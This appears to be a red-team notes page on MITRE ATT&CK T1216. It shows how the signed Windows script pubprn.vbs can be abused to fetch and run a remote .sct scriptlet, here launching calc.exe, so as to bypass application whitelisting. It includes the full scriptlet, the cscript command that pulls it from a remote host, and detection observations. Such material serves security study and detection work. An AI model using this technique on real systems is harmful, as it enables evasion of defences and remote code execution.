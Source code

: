 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../../.gitbook/assets/pubprn-csript.png)

![](../../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}

